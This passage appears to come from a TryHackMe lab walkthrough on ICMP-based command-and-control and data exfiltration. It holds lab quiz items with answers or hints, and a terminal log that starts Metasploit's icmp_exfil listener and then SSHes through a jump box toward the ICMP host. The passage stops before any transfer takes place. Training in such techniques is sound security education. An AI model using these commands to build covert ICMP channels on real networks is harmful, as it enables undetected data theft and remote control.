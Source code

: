 Similar to the client-side binary, ensure to select the interface for the communication as well as the destination IP. As the previous terminal shows, we requested to execute the hostname command, and we received icmp-host.

To confirm that all communications go through the ICMP protocol, we capture the network traffic during the communication using tcpdump as the following:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b7df6f586e47769bf2addbee68d69cdc.png)



In which ICMP packet section can we include our data?
*ping*

Follow the technique discussed in this task to establish a C2 ICMP connection between JumpBox and ICMP-Host. Then execute the "getFlag" command. What is the flag?
Once the "getFlag" command is executed, check /tmp/ directory!

```
root@ip-10-10-99-235:/opt/Neo-reGeorg/neoreg_servers# msfconsole -q
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src 10.10.99.235BPF_FILTER => icmp and not src 10.10.99.235
msf5 auxiliary(server/icmp_exfil) > set INTERFACE eth0
INTERFACE => eth0
msf5 auxiliary(server/icmp_exfil) > run

[*] ICMP Listener started on eth0 (10.10.99.235). Monitoring for trigger packet containing ^BOF
[*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)


root@ip-10-10-99-235:/opt/Neo-reGeorg/neoreg_servers# ssh thm@10.10.20.177
The authenticity of host '10.10.20.177 (10.10.20.177)' can't be established.
ECDSA key fingerprint is SHA256:Ks0kFNo7GTsv8uM8bW78FwCCXjvouzDDmATnx1NhbIs.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.20.177' (ECDSA) to the list of known hosts.
thm@10.10.20.177's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-1029-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Sep 12 19:02:37 2022 from 10.100.1.242
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

thm@jump-box:~$ ssh thm@web.thm.com
thm@web.thm.com's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-1029-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Sep 12 16:58:52 2022 from 192.168.0.133
thm@web-thm:~$ ssh thm@icmp.thm.com
The authenticity of host 'icmp.thm.com (192.168.0.121)' can't be established.
```